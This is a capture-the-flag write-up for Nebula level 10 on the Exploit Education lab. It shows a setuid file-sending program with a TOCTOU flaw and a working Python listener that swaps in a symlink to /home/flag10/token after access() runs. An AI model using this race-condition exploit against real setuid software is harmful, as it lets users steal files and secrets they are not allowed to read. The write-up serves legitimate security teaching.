



# Nebula - [LEVEL 10](https://exploit.education/nebula/level-10/)

Level Description:



```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

# Nebula - [LEVEL 10](https://exploit.education/nebula/level-10/) - Solution

So this binary will upload any file given file (on port ```18211```).
We can see on the code the call of ```access``` function.

The ```access()``` system call checks whether the real user ID or group ID has permissions to
access a file, and returns 0 if it does. This system call is usually used by set-uid program before
accessing a file on behalf of the real user ID (not the effective user ID) ([Reference](https://web.ecs.syr.edu/~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)).

So It's meaning if we have access to the file we can pass the ```access``` check.

We can create a file called ```/tmp/sym/test```, After ```access``` system call checks the file we need to change the file to point (symlink) on ```/home/flag10/token``` file, This type of attacks called ```Time-of-Check, Time-of-Use (TOCTOU)``` (You can read about that on the same reference before).

Let's open another shell as ```flag10```.

On this shell, we can run the following ```python``` code which creates a socket and listen to port ```18211```, At the moment we get a connection we need to create the symlink to ```/home/flag10/token```:

```python
import socket
import sys
import os


# Create a TCP/IP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Bind the socket to the address given on the command line
server_name = '127.0.0.1'
server_address = (server_name, 18211)
print >>sys.stderr, 'starting up on %s port %s' % server_address
sock.bind(server_address)
sock.listen(1)

while True:
    print >>sys.stderr, 'waiting for a connection'
    connection, client_address = sock.accept()
    os.system('ln -fs /home/flag10/token /tmp/sym/mytoken')
    try:
        print >>sys.stderr, 'client connected:', client_address
        while True:
            data = connection.recv(256)
            print >>sys.stderr, 'received "%s"' % data
            if not data:
                break
    finally:
        connection.close()
```

And run it:



On the first shell let's run:
```console
./flag10 /tmp/sym/mytoken 127.0.0.1
```



And we get the flag:


